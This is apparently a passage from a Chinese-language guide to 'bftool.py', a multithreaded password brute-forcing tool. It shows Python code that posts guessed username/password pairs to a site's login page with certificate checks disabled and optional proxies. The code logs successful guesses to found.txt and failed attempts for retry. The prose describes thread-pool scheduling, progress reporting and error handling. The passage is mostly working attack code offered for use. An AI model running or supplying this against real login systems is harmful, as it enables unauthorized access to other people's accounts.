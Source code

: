 ```python
    try:
        url = "https://example.com"
        session = requests.Session()

        data = {
            "username": username,
            "password": RSA_encrypt(password)
        }
        response = session.post(url + "/login.html",
            data=data, headers=HEADERS, cookies=COOKIES, timeout=10, 
            allow_redirects=False, verify=False, proxies=PROXIES if USE_PROXY else None)

        if "Login failed" in response.text:
            return True, False

        if "Unknown user" in response.text:
            return True, False
        
        output = f"[++] {datetime.now().strftime('%H:%M:%S')} Found {username}:{password}\t\t=> code:{response.status_code} length:{len(response.content)}"
        write_to_file(FOUND_OUTPUT_PATH, FOUND_OUTPUT_LOCK, f"{output}\n")
        print(output)
        return True, True

    except (ConnectTimeout, ConnectionError, ReadTimeout) as e:
        write_to_file(EXCEPTION_OUTPUT_PATH, EXCEPTION_OUTPUT_LOCK, f"{username}:{password}\n")
        print(f"[x] {datetime.now().strftime('%H:%M:%S')} {username}:{password} Encounter error: {e}")
        return False, False

    except Exception as e:
        write_to_file(EXCEPTION_OUTPUT_PATH, EXCEPTION_OUTPUT_LOCK, f"{username}:{password}\n")
        print(f"[x] {datetime.now().strftime('%H:%M:%S')} {username}:{password} Encounter error: {e}, detail:")
        print(traceback.format_exc())
        return False, False
```

编写完 `run` 函数后，便可以使用 `python bftool.py` 进行调试运行

## 八、线程池调度

+ 代码中 `# =================== [ 启动多线程爆破 ] ===================` 以下的部分都是负责线程池调度和负责日志输出的代码，建议保持默认即可

+ 线程池支持 `Ctrl+C` 异常捕捉，所以可以使用键盘中断程序运行

+ 本工具每隔10分钟就会以百分比的形式汇报一次进度，方便预估脚本运行时间

+ 每个线程运行期间如果遭遇异常，就会累加异常计数，如果下一个线程能正常完成请求，就会将异常计数归0，如果异常计数累计达到10的时候，程序就会退出，避免无意义的发起请求

+ 成功爆破的密码会记录在 `found.txt` 文件里，如果遭遇异常（如：网络连接中断、服务器拒绝连接），则登录异常的密码会记录在 `exception.txt` 中，方便重新再跑一遍
